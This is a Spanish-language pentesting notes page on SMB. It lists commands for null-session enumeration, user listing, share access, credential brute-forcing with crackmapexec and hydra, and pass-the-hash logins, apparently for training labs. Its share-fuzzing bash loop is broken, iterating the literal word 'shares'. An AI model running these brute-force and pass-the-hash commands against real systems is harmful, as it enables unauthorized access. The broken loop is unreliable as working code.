

repository: scarlgyx/scarlgyx-cybersecurity · page: notes/smb/index.html · generator: mkdocs

# SMB

*Server Message Block*
Protocolo de red de la capa de aplicación que permite compartir archivos, impresoras y otros recursos entre dispositivos conectados en una red local.

Puerto **139, 445** TCP-> netbios-ssn Samba

- Enumeración de recursos con Null Session
```bash
smbclient -N -L target
```

- Escaneo de usuarios
```bash
crackmapexec smb target --users
nmap -p445 --script smb-enum-users.nse target
enum4linux -U target
```

- Acceso con usuario
```bash
smbclient -L target -U usuario
```

- Acceso a recurso compartido -l
```bash
smbclient -N //target/recurso
smbclient //target/recurso -U usuario%pass
```

- Bruteforcear credenciales
```bash
crackmapexec smb target -u usuario/s -p contraseña/s --continue-on-success | grep '\[+\]'
hydra -l usuario -P contraseñas target smb
```

- Descubrir recursos compartido con credenciales
```bash
smbmap -r -u usuario -p contraseña -H target
```

- Fuzzear recursos compartidos ocultos con diccionario
```
#!/bin/bash

shares=$(cat diccionario.txt)

for i in shares; do
	echo "[+] Probando $i"
	smbclient -N //target/$i
done;
```

- Pass the Hash
NTLM Hash = LM_Hash:NT_Hash
```bash
crackmapexec smb target -u usuario -H 'hash'
```

```bash
smbclient //target.ine.local/ITResources -U nancy --pw-nt-hash NT_Hash
```

-> Solo parte variable del hash
